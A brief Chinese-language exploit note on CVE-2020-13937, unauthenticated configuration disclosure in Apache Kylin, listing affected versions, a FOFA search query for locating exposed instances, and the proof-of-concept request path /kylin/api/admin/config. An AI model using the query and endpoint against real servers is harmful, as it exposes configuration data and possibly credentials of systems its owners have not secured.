 # Apache Kylin的未授权配置泄露

### FOFA

app="APACHE-kylin"

### **受影响的版本：**

Apache Kylin 有一个restful api会在没有认可认证的情况下暴露配置信息。



Kylin 2.x.x

Kylin <= 3.1.0

Kylin 4.0.0-alpha

### 漏洞利用

根据漏洞情报

![](image/apache kylin-1.png)

漏洞利用POC为{% em type="red" %}http://xxx.xxx.xxx.xxx/kylin/api/admin/config{% endem %}

![](image/apache kylin-2.png)

### 参考

[CVE-2020-13937|Apache Kylin的未授权配置泄露漏洞，腾讯安全全面支持检测](https://s.tencent.com/research/bsafe/1156.html)
